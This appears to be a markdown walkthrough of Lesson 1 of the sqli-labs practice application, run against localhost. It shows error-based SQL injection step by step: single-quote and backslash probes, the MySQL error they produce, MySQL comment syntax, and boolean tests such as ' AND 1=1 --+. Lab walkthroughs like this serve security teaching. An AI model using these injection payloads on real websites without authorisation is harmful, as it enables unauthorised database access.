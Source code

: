 #### 1. Lesson 1 - ``GET - Error based - Single Quote - String``

```
http://127.0.0.1/sqli-labs/Less-1/?id=1
http://127.0.0.1/sqli-labs/Less-1/?id=2
http://127.0.0.1/sqli-labs/Less-1/?id=3
```

![](images/1/1.png)

![](images/1/2.png)

![](images/1/3.png)

```sql
select Login name, Password from table where id = [our_input]
```

```sql
select Login name, Password from table where id = 1
select Login name, Password from table where id = 2
select Login name, Password from table where id = 3
```

```
http://127.0.0.1/sqli-labs/Less-1/?id=somevalue
http://127.0.0.1/sqli-labs/Less-1/?id=123snyt
http://127.0.0.1/sqli-labs/Less-1/?id=99999999
```

![](images/1/4.png)

![](images/1/5.png)

![](images/1/6.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1"
```

![](images/1/7.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1'
```

![](images/1/8.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

```
''1'' LIMIT 0,1' at line 1
'  '1'  ' LIMIT 0,1' at line 1
   '1' ' LIMIT 0,1
'   1'    ' LIMIT 0,1
1'
```

Remove the first and the last ```'``` and 3 more quotes will be left out of which 2 of them encapsulate out input

```
http://localhost/sqli-labs/Less-1/?id=1\
```

![](images/1/9.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1'
'1\' LIMIT 0,1
1\
```

--

###### Comments in MySQL

```
--
```

```
#
```

```
/* */
```

--

```
http://localhost/sqli-labs/Less-1/?id=1'--%20
```

![](images/1/10.png)

```
http://localhost/sqli-labs/Less-1/?id=1'#%20
http://localhost/sqli-labs/Less-1/?id=1'%23%20
```

![](images/1/11.png)

```
'1\' LIMIT 0,1
'1'--+     ' LIMIT 0,1
```

```
http://localhost/sqli-labs/Less-1/?id=1
http://localhost/sqli-labs/Less-1/?id=1'
http://localhost/sqli-labs/Less-1/?id=1'--+
```

![](images/1/12.png)

![](images/1/13.png)

![](images/1/14.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=1 --+
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=0 --+
```

![](images/1/15.png)

![](images/1/16.png)